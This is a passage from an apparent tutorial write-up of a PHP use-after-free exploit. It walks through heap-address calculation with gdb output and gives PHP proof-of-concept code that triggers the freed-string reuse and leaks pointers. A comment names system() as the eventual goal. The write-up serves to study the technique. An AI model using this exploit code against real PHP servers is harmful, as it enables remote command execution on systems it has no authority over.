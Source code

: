 We can abuse this behaviour to **calculate other addresses** on the heap. In the next line of the exploit ([184](exploit.php#L184)), you can see that the address of ``$abc`` is calculated using this leaked heap address:

```php
$abc_addr = $php_heap - 0xc8;
```

Let's double-check and calculate those values ourselves, we already know from the screenshots above that the address of our free'd ``zend_string.val`` is ``0x7ffff6073088``:
```
gdb-peda$ set $php_heap = 0x00007ffff6073150
gdb-peda$ p/x $php_heap - 0xc8
$100 = 0x7ffff6073088
```

yes! The result is ``0x7ffff6073088`` as expected.

Simple PoC for leaks:
```php
<?php
/* ======= HELPER FUNCTIONS ====== */
function str2ptr(&$str, $p = 0, $s = 8) { # Allows us to read from the uaf'd zend_string and return the leaked bytes in a "form" of a pointer using bitwise operators.
    $address = 0;
    for($j = $s-1; $j >= 0; $j--) {
        $address <<= 8;
        $address |= ord($str[$p+$j]);
    }
    return $address;
}
/* =============================== */

global $backtrace;


class Helper {
    public $a, $b, $c, $d;
}

class Vuln {
	public $a;
	public function __destruct() {
		global $backtrace;
		unset($this->a);
		$backtrace = debug_backtrace();
	}
}

function trigger_uaf($arg) {
	$arg = str_shuffle(str_repeat('A', 79));
	$vuln = new Vuln();
	$vuln->a = $arg;
}

trigger_uaf('x'); // freeing $arg (104 bytes)
$abc = &$backtrace[1]['args'][0]; // UAF'd zend_string
$helper = new Helper; // allocating 104 bytes

// setting values like 0x1336, 0x1337 for debugging purposes (it's easier to detect the object in memory dumps if it has known values)
$helper->a = 0x1336; // zend_object->properties_table[0] 
$helper->b = function ($x) { }; // ignore this right now, this will become system() by the end of this write-up
$helper->c = 0x1337; // zend_object->properties_table[2] 
$helper->d = 0x1338; // zend_object->properties_table[3] 
```
